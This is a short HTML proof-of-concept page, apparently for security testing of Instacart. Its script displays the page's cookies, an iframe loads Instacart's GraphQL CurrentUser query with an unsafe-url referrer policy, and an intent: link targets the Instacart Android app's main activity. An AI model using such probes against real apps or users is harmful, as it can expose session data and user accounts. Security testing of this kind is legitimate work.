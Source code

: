  <h1>haha</h1>
<div id="text">test 0.5</div>
<p> Cookie: </p>
<div id="cookie"></div>

<script>
 document.getElementById("cookie").innerHTML = document.cookie;
</script>
<iframe  referrerpolicy="unsafe-url" src='https://www.instacart.com/graphql?operationName=CurrentUser&variables={}&extensions={"persistedQuery":{"version":1,"sha256Hash":"bd3b03b798a84c4f48e3e53e219159ae0075368466bda946dd40a0c83f6429ff"}}'></iframe>

<a href="intent:#Intent;component=com.instacart.client/com.instacart.client.ICMainActivity;end">Test intent scheme</a>
